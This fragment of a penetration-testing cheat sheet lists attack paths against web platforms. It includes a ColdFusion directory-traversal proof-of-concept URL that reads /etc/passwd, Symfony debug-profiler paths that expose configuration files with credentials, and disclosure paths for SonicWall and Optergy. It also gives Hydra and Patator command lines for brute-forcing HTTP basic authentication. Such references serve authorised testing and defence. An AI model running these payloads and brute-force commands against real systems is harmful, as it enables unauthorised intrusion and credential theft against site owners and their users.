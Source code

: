 ```
webmail.nsf is a mail service. 
webmail.nsf;/About will give you aprox version
names.nsf

```
### ColdFusion 
```
CVE-2010-2681 - Directory Traversal 
- POC - 
http://www.example.com/CFIDE/administrator/settings/mappings.cfm?locale=en - Replace en with path

http://www.example.com/CFIDE/administrator/settings/mappings.cfm?locale=../../../../../etc/passwd

Interesting locations:  

CFIDE/administrator/settings/mappings.cfm
logging/settings.cfm
datasources/index.cfm
j2eepackaging/editarchive.cfm
CFIDE/administrator/enter.cfm
```

### SonicWall Firewall 
```
/dynLoggedOut.html - Discloses specific model 
```
### Symfony Web Framework 
```
If debugmode is enabled within framework, check on /app_dev.php.  
phpinfo accessible = app_dev.php/_profiler/phpinfo 
Able to reach internal configuration file, which includes Passwords and usernames for system services using /app_dev.php/_profiler/open?file=app/config/paramaters.yml
```
### Optergy
```
Username disclosure /Login.html?showReset=true
```

### WebDav

```
davtest -url <URL>
```

## HTTP brute force authentication

### HTTP basic authentication

```
# Hydra
hydra -l <USER> -V -P <PASSWORDS_LIST> -s 80 -f <IP> http-get /<URL_ENDPOINT>/ -t 15

# Patator
python patator.py http_fuzz auth_type=basic url=<URL> user_pass=FILE0 0=<USER:PASSWORD_LIST> -x ignore:code=401 -x ignore:code=307
```

